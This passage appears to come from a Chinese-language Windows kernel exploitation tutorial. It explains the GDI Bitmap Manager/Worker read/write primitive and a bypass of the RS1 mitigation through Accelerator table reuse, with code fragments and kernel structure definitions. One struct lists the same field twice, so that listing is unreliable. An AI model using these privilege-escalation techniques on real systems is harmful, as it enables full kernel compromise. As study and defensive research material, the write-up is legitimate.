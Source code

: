 ```C
  SetBitmapBits(hWorker, len, writeValue);
}

int main()
{
  HBITMAP hManager = CreateBitmap(0x20, 0x20, 0x1, 0x8, NULL);
  HBITMAP hWorker = CreateBitmap(0x20, 0x20, 0x1, 0x8, NULL);
  DWORD64 hManager_pvScan0 = GetpvScan0Addr(hManager);
  DWORD64 hWorker_pvScan0 = GetpvScan0Addr(hWorker);
}
```


### 1.3 绕过 RS1 缓解措施（<1703）

Windows RS1 对 Bitmap 做了缓解措施，`GdiSharedHandleTable `不再透露内核地址。，因此通过 pKernelAddress 找到 pvScan0 地址的方法失效了。

Windows 中共有三种类型的对象，分别是 User object、GDI object、Kernel object。Bitmap 属于 GDI object，存在换页对象池:

![](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/x.png)

Accelerator table 对象属于 User object，也存在于换页会话池中。Accelerator table 对象地址可以通过 pKernel 获得，因此如果可以让 Bitmap 对象重用 Accelerator table 对象，就可以再次找到 pvScan0 地址。

#### 获取对象地址

user32.dll 有一个全局变量结构—gSharedInfo，结构如下

```C
typedef struct _SHAREDINFO
{ 
  PSERVERINFO  psi;
  PHANDLEENTRY aheList;
  ULONG_PTR    HeEntrySize;
  PDISPLAYINFO pDisplayInfo;
  ULONG_PTR    ulSharedDelta;
  WNDMSG       awmControl[27];
  WNDMSG       awmControl[31];
  WNDMSG       DefWindowMsgs;
  WNDMSG       DefWindowSpecMsgs;
} SHAREDINFO, *PSHAREDINFO;
```


ahelist 是一个指向一张结构为 USER_HANDLE_ENTRY 的表，其结构如下：

```C
typedef struct _USER_HANDLE_ENTRY {
    void* pKernel;
    union
    {
        PVOID pi;
        PVOID pti;
        PVOID ppi;
    };
    BYTE type;
    BYTE flags;
    WORD generation;
} USER_HANDLE_ENTRY, * PUSER_HANDLE_ENTRY;
```
